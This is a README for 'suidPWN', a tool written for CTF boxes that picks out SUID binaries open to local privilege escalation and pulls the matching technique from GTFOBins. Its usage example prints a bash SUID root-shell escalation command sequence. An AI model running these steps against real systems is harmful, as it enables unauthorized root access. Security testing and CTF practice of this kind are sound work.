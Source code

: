 # suidPWN
Speeding up identifying which binaries with a SUID flag may lead to root access

# about
We made this tool while working and different CTF boxes.  
The reason was to fast identify SUID binaries which are vulnerable to an LPE.  
  
All the credits of the local privilege escalation techniques go to gtfobins. These guys are awesome! <3  

# hints
- update the `binaries` files regulary
- when `suidPWN.py` identified a binary which allows privilege escalation, it scrapes the technique from `gtfobins` and stores it locally, so it does not have to scrape it again next time

# usage
## Updating the `binaries` file
```bash
$ python3 get_binaries_from_gtfobins.py
[*] Getting binary list from gtfobins...
[+] Done.
```

## practical example
```bash
$ python3 suidPWN.py
Paste your find output. When you are done press ctrl+d
-rwxr-sr-x 1 root shadow 71816 Jul 27  2018 /usr/bin/chage
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount
-rwxr-sr-x 1 root shadow 31000 Jul 27  2018 /usr/bin/expiry
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwxr-sr-x 1 root tty 14736 May  4  2018 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/bash
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root shadow 39616 Feb 14  2019 /usr/sbin/unix_chkpwd
^D

[+] bash
[*] Getting bash escalation technique from gtfobins.github.io.
>
>	sudo install -m =xs $(which bash) .
>
>	./bash -p
>
>	source: https://gtfobins.github.io/gtfobins/bash
```
